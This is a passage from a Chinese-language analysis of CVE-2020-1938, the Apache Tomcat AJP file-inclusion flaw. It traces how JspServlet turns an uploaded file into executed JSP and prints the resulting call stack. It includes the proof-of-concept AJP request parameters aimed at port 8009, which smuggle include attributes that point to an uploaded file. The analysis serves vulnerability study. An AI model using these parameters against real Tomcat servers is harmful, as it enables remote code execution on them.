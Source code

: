 
### RCE

    Copy to clipboard"HTTP/1.1" "/1.jsp" 127.0.0.1 localhost porto 8009 false "Cookie:AAAA=BBBB" "javax.servlet.include.request_uri:/","javax.servlet.include.path_info:1.txt","javax.servlet.include.servlet_path:/upload/"

`org/apache/jasper/servlet/JspServlet#service`负责处理`xxx.jsp`访问逻辑，跟进来
**jspUri** 是通过 **servlet\_path** 和 **path\_info** 拼接而来的。

![](resource/(CVE-2020-1938)ApacheTomcat文件包含漏洞/media/rId43.png)

之后便会进入 **serviceJspFile** 逻辑进行处理。

![](resource/(CVE-2020-1938)ApacheTomcat文件包含漏洞/media/rId44.png)

跟进 **serviceJspFile** 方法，首先先通过 **getResource**
获取上传文件的内容，然后再通过初始化 **wrapper**
对象传入相关参数，然后再调用 **JspServletWrapper\#service** 进行解析。

![](resource/(CVE-2020-1938)ApacheTomcat文件包含漏洞/media/rId45.png)

这简单解释一下，**RCE** 的核心需要进入的 **JspServlet** ，我们平常访问
**xxx.jsp** 是进入到 **Jspservlet** ，poc中访问`/1.jsp`通过 **AJP**
发包的过程中实际上就是我们的Get请求访问`www.xxx.com/1.jsp`，所以这里自然进入了
**JspServlet** 当中，然后再配合 **getResource** 获取上传的文件内容，调用
**Jsp** 引擎进行解析，自然达到了RCE的效果。

最后附上RCE的调用栈

    Copy to clipboardexec:347, Runtime (java.lang)
    _jspService:1, _1_txt (org.apache.jsp)
    service:70, HttpJspBase (org.apache.jasper.runtime)
    service:741, HttpServlet (javax.servlet.http)
    service:476, JspServletWrapper (org.apache.jasper.servlet)
    serviceJspFile:386, JspServlet (org.apache.jasper.servlet)
    service:330, JspServlet (org.apache.jasper.servlet)
    service:741, HttpServlet (javax.servlet.http)
    internalDoFilter:231, ApplicationFilterChain (org.apache.catalina.core)
    doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
    doFilter:52, WsFilter (org.apache.tomcat.websocket.server)
    internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
    doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
    invoke:199, StandardWrapperValve (org.apache.catalina.core)
    invoke:96, StandardContextValve (org.apache.catalina.core)
    invoke:493, AuthenticatorBase (org.apache.catalina.authenticator)
    invoke:137, StandardHostValve (org.apache.catalina.core)
    invoke:81, ErrorReportValve (org.apache.catalina.valves)
    invoke:660, AbstractAccessLogValve (org.apache.catalina.valves)
    invoke:87, StandardEngineValve (org.apache.catalina.core)
    service:343, CoyoteAdapter (org.apache.catalina.connector)
    service:476, AjpProcessor (org.apache.coyote.ajp)
    process:66, AbstractProcessorLight (org.apache.coyote)
    process:808, AbstractProtocol$ConnectionHandler (org.apache.coyote)
    doRun:1498, NioEndpoint$SocketProcessor (org.apache.tomcat.util.net)
    run:49, SocketProcessorBase (org.apache.tomcat.util.net)
    runWorker:1142, ThreadPoolExecutor (java.util.concurrent)
    run:617, ThreadPoolExecutor$Worker (java.util.concurrent)
    run:61, TaskThread$WrappingRunnable (org.apache.tomcat.util.threads)
    run:745, Thread (java.lang)
